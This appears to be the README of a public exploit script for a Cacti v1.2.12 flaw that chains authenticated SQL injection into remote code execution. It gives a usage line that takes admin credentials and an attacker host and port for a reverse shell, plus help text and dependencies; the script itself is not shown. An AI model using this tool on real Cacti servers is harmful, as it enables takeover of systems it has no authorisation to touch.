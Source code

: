 # Cacti v1.2.12 Authenticated Remote Code Execution     
# (SQLI --> RCE)

<h1> Discovery : https://github.com/Cacti/cacti/issues/3622 </h1>


<h2> Usage : </h2>
<h3>python3 cacti_rce.py cacti_rce.py -H http://cactiurl -U `ADMIN USERNAME` -P `ADMIN PASSWORD` -l `LHOST` -p `LPORT` </h3>
  
<br>
usage: cacti_rce.py [-h] [-H H] [-U U] [-P P] [-l L] [-p P]

Cacti v1.2.12 Authenticated Remote Code Execution

 <p> optional arguments: </p>
 <p> -h, --help  show this help message and exit  </p>
 <p> -H H        Cacti URL Eg:http://cactiurl     </p>
 <p> -U U        Cacti Admin Username             </p>
 <p> -P P        Cacti Admin Password             </p>
 <p> -l L        rev shell lhost                  </p>
 <p> -p P        rev shell lport                  </p>


# Dependencies

<h4> pip3 install argparse </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>
